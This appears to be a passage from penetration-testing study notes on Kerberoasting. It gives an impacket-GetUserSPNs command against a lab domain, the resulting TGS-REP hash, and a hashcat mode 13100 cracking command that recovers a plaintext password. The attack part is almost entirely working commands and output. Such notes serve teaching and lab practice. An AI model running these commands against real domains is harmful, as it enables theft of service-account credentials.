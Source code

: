 ### Linux-Based Kerberoasting with Impacket

**Tool: impacket-GetUserSPNs**

**Kerberoasting Attack Execution:**
```bash
# Request service tickets for all SPNs
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

**Command Parameters:**
- **-request**: Request TGS tickets for discovered SPNs
- **-dc-ip**: Domain controller IP address
- **corp.com/pete**: Domain/username for authentication
- **-outputfile**: Optional output file for hashes

**Sample Attack Output:**
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               

[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```

### TGS-REP Hash Cracking

**Hashcat Mode Identification:**
```bash
# Identify correct mode for TGS-REP hashes
hashcat --help | grep -i "Kerberos"
```

**TGS-REP Hash Cracking (Mode 13100):**
```bash
# Crack TGS-REP hash using Hashcat
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Successful Crack Output:**
```
$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940ad9dcf5dd5cd8e91a86d4ba0396db$f57066a4f4f8ff5d70df39b0c98ed7948a5db08d689b92446e600b49fd502dea39a8ed3b0b766e5cd40410464263557bc0e4025bfb92d89ba5c12c26c72232905dec4d060d3c8988945419ab4a7e7adec407d22bf6871d...d8a2033fc64622eaef566f4740659d2e520b17bd383a47da74b54048397a4aaf06093b95322ddb81ce63694e0d1a8fa974f4df071c461b65cbb3dbcaec65478798bc909bc94:Strawberry1
```

### Service Account Types and Attack Success
